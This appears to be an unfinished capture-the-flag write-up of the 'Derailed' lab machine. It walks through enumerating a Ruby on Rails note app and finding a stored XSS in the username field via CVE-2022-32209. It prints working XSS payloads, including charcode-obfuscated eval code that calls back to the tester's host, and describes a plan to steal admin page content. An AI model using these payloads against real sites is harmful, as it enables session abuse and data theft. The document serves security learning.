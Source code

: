 # Derailed (WIP)

## Gaining Access

As usual, we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (98) (1).png" alt=""><figcaption></figcaption></figure>

Port 3000 was found to be a HTTP port leading us to this Clipnotes page.

### Directory Enum

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Wasn't much to play around with, as we had no credentials yet. Decided to run a directory scan to find if there are any endpoints. Eventually, I found this /rails endpoint, using dirsearch.

<figure><img src="../../../.gitbook/assets/image (99) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (8) (1) (3).png" alt=""><figcaption></figcaption></figure>

Interesting. This presented a lot of information for me and also tells me this is a Ruby on Rails project. Another interesting directory was the **/administration** panel which I could not view at all. This is the information from the info endpoint:

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

From here, we can try to fuzz out other information and endpoints on this /rail directory. I used feroxbuster for its recursive search function.

<figure><img src="../../../.gitbook/assets/image (3) (1) (4).png" alt=""><figcaption></figcaption></figure>

This directory basically shows us every single path there was in the website:

<figure><img src="../../../.gitbook/assets/image (101) (1).png" alt=""><figcaption></figcaption></figure>

### /clipnotes

Earlier, we saw some form of clipnote function. Testing it shows us that each time we create a new one, it is stored on the server somewhere. Notice that this one I created was 110.

<figure><img src="../../../.gitbook/assets/image (102) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;Using the **/clipnotes/raw/:id** format, I was able to view the first clipnote, submitted by a user called Alice. Visiting anything other than 1 was not possible.

<figure><img src="../../../.gitbook/assets/image (100) (1).png" alt=""><figcaption></figcaption></figure>

I was interested in what other number is present, so I used wfuzz to enumerate out all other numbers. None are present it seems

<figure><img src="../../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

I checked out the other endpoints, as there may be more interesting ones. The **/report** one looks good.

### /report

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

Submitting a report reveals tells us that an admin would look at it. This tells me that perhaps, there is a form of XSS present on the site.

When looking at the POST request for the report, we can see that it sends this authenticity\_token:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

However, the cookies have been set to HttpOnly, meaning that stealing cookies is pointless in this case. XSS on the administrator could either allow us to enumerate more about the /administration page, or simply to steal his cookie and impersonate him.

Because this is clearly an XSS challenge, I thought of first finding a potential XSS entry.&#x20;

### Finding XSS Point

I messed around a lot with the clipnotes and tried all sorts of stuff, but it wasn't loading Javascript. Then I realised that the **author** of the clipnotes was something that I controlled. Perhaps, I could overflow the thing or try to register a malicious user. Since the page renders that username, this could potentially be vulnerable.

So I started a HTTP server, and attempted this:

<figure><img src="../../../.gitbook/assets/image (15) (3).png" alt=""><figcaption></figcaption></figure>

The reason I did this was because I am aware that there is a potential limit to the username, and trying to overflow that may cause the end bit to be rendered as JS code. Then I created a clipnote:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

The overflow kind of worked, managed to remove the last portion about the created bit. I then went to try various different payloads including \<img> tags and stuff. DIdn't really work. I then suspected this has to do with some kind of CVE that was released recently (usual pattern of HTB, uses CVEs from 2022), and went hunting for Ruby + XSS related exploits that came out recently.

I eventually found CVE-2022-32209, which was a XSS exploit for Rails::Html::Sanitizer. &#x20;

{% embed url="https://groups.google.com/g/rubyonrails-security/c/ce9PhUANQ6s?pli=1" %}

Seems that the \<select> tag was being used maliciously. I then tried the same overflow trick with this payload:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/xss.pls'>
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (3).png" alt=""><figcaption></figcaption></figure>

This worked! I was able to get a callback as well:

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

Now, we just need to find a way to exploit this XSS.

### CSRF + XSS

Understanding that we now have XSS, I was thinking of using CSRF in order to retrieve more information about the /administration page. The reason CSRF is used is because **CSRF tokens do not protect against XSS.** We had a simple rails cookie that was HttpOnly, so XSS needs to do something else.

Since we can basically execute basic web requests using our username, we need to think of how to redirect the user somewhere. We can abuse the **eval** function to inject malicious JS code.&#x20;

First, I made a simple script that would callback to our machine.

```javascript
var xmlHttp = new XMLHttpRequest();
xmlHttp.open("GET", "http://10.10.14.29/stringcallback", false);
xmlHttp.send(null);
```

Then I encoded it using Base64, and wanted to see if I was able to get the callback I wanted using event attributes. The end username was this:

{% code overflow="wrap" %}
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/imgfail' onerror="eval(decode64('dmFyIHhtbEh0dHAgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKeG1sWG1sSHR0cC5vcGVuKCJHRVQiLCAiaHR0cDovLzEwLjEwLjE0LjI5L3NjcmlwdGNhbGxiYWNrIiwgdHJ1ZSk7CnhtbEh0dHAuc2VuZChudWxsKTs='))">
```
{% endcode %}

Base64 Encoding did not work, so I tried with Char Coding instead. What Char Coding does is basically translate all the characters within my script to become ASCII letters.&#x20;

The payload becomes this:

{% code overflow="wrap" %}
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/imgfail' onerror="eval(String.fromCharCode(118, 97, 114, 32, 120, 109, 108, 72, 116, 116, 112, 32, 61, 32, 110, 101, 119, 32, 88, 77, 76, 72, 116, 116, 112, 82, 101, 113, 117, 101, 115, 116, 40, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 111, 112, 101, 110, 40, 34, 71, 69, 84, 34, 44, 32, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 46, 49, 48, 46, 49, 52, 46, 50, 57, 47, 115, 116, 114, 105, 110, 103, 99, 97, 108, 108, 98, 97, 99, 107, 34, 44, 32, 102, 97, 108, 115, 101, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 115, 101, 110, 100, 40, 110, 117, 108, 108, 41, 59))">
```
{% endcode %}

This payload worked! I was able to retrieve two callbacks after creating the clipnote.

<figure><img src="../../../.gitbook/assets/image (2) (1) (5).png" alt=""><figcaption></figcaption></figure>

Now we can use a script from Hacktricks to steal the page content of the administration panel. However, seems like sending GET requests via this method does not work. Had a hard time making it work with the reports feature, but I'll get there. WIP.
